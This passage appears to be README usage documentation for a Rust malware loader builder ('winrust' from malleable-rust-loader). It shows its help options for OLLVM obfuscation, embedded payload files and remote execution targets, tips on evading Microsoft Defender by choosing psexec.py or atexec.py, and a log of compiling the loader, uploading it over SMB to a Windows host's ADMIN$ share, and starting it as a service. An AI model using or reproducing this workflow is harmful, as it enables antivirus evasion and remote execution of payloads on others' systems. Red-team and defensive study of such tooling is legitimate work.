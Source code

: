 ```
  -h, --help            show this help message and exit
  --mem1                add a file in MEMORY_1 at compilation time, file should be located here: ~/.malleable/config/mem1
  --mem2                add a file in MEMORY_2 at compilation time, file should be located here: ~/.malleable/config/mem2
  --mem3                add a file in MEMORY_3 at compilation time, file should be located here: ~/.malleable/config/mem3
  --mem4                add a file in MEMORY_4 at compilation time, file should be located here: ~/.malleable/config/mem4
  -exec_target EXEC_TARGET
                        [[domain/]username[:password]@]<targetName or address>, by default use the content of ~/.exec
  -exec_method EXEC_METHOD
                        Method to execute on the Windows side, default psexec.py
  --ollvm               OLLVM obfuscation, add the release flag automatically
  --release             activate the cargo release mode for compilation, sinon its debug
  --log, --debug        activate the agent debug log into STDOUT, you should also activate rust loggin via env variable: setx
                        RUST_LOG info /m + setx RUST_LOG info
  --verbose, -v         verbose execution

by Brother
```

-> be carefull, **psexec.py** is catch by Antivirus Defender but have the advantage of sending live output during execution wish is very important to debug.
if you want to test against this antivirus, you can switch to **atexex.py**, you will have output but at the end of the execution. However, you also could run it manually via RDP.


example of winrust usage (you should add the --debug option to have output for debugging) :

```
┌──(user㉿DRACONYS)-[~/malleable-rust-loader]
└─$ winrust loader --debug
2024-11-13 08:10:15,909 INFO	[+] NORMAL Compilation
2024-11-13 08:10:15,909 INFO	cargo build --target x86_64-pc-windows-gnu --bin "loader"  --features logdebug 
    Finished `dev` profile [unoptimized + debuginfo] target(s) in 0.19s
2024-11-13 08:10:16,153 INFO	[+] compilation succeed
2024-11-13 08:10:16,160 INFO	-rwxrwxr-x 2 user user 113M Nov 13 08:07 target/x86_64-pc-windows-gnu/debug/loader.exe
2024-11-13 08:10:16,170 INFO	target/x86_64-pc-windows-gnu/debug/loader.exe: PE32+ executable (console) x86-64, for MS Windows, 24 sections
2024-11-13 08:10:16,475 INFO	a662eb2c547ed9b9050ec57f7af4132261d4b855f32bdcbcc4484e8fb2df5ef6  target/x86_64-pc-windows-gnu/debug/loader.exe
2024-11-13 08:10:16,627 INFO	198652096989789263e405449e428e3c177cfbf9  target/x86_64-pc-windows-gnu/debug/loader.exe
2024-11-13 08:10:16,683 INFO	[+] upload file via SMB into target
Impacket v0.11.0 - Copyright 2023 Fortra

Type help for list of commands
# # # -rw-rw-rw-  117551412  Wed Nov 13 08:10:19 2024 loader-c00219d5113940bfb537ffb24db777b3.exe
# 2024-11-13 08:10:19,906 INFO	[+] exec c:\loader-c00219d5113940bfb537ffb24db777b3.exe with psexec.py
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 192.168.56.23.....
[*] Found writable share ADMIN$
[*] Uploading file vHqTQByx.exe
[*] Opening SVCManager on 192.168.56.23.....
[*] Creating service fERt on 192.168.56.23.....
[*] Starting service fERt.....
[!] Press help for extra shell commands
[2024-11-13T07:10:20Z INFO  loader] [+] DECRYPT initial config
```